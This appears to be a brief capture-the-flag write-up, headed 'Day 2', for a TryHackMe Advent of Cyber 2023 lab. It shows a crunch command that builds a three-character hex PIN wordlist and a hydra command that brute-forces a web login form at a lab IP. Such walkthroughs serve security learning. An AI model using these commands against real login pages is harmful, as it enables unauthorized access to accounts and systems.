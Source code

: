 # Day 2

![image](https://github.com/PolGs/THM-Advent-of-Cyber-2023/assets/19478700/86c03667-b93e-4e16-9d02-74c409f88ea6)
![image](https://github.com/PolGs/THM-Advent-of-Cyber-2023/assets/19478700/1c81a9f1-4649-4232-b609-8eabad750d2a)


## Generating password wordlist with crunch
```s
crunch 3 3 0123456789ABCDEF -o 3digits.txt
```

## Cracking with hydra
```s
hydra -l '' -P 3digits.txt -f -v 10.10.174.107 http-post-form "/login.php:pin=^PASS^:Access denied" -s 8000
```


